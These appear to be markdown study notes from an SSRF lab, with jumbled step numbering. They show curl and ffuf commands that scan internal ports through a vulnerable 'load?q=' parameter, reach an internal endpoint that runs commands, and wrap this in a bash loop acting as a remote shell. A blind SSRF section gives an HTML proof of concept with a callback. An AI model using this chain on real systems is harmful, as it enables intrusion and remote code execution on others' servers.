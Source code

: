....Search for internal ports........

5. Do port scan
```
$ for port in {1..65535};do echo $port >> ports.txt;done
$curl -i -s "http://<TARGET IP>/load?q=http://127.0.0.1:1"
$ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://127.0.0.1:PORT" -fs 30
```
7. Check internal server
```
$curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=index.html"

2. Port scan 
$ ffuf -w ./ports.txt:PORT -u "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:PORT" -fr 'Errno[[:blank:]]111'

$ curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/"
```

1. Interact with the target
	1. `curl -i -s "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=whoami"`
3. Use jq to encode
	1. `sudo apt-get install jq`
	2. `echo "encode me" | jq -sRr @uri`
4. Automate executing commands
```
$ function rce() {
 while true; do
 echo -n "# "; read cmd
 ecmd=$(echo -n $cmd | jq -sRr @uri | jq -sRr @uri | jq -sRr @uri)
 curl -s -o - "http://<TARGET IP>/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000/runme?x=${ecmd}"
 echo ""
done
}
```

`

# Blind SSRF
# Tools
1. Burp Collaborator (Part of Burp Suite professional. Not Available in the community edition)
2. http://pingb.in

## Code for POC
```

<!DOCTYPE html>
<html>
<body>
	<a>Hello World!</a>
	<img src="http://<SERVICE IP>:PORT/x?=viaimgtag">
</body>
</html>


```
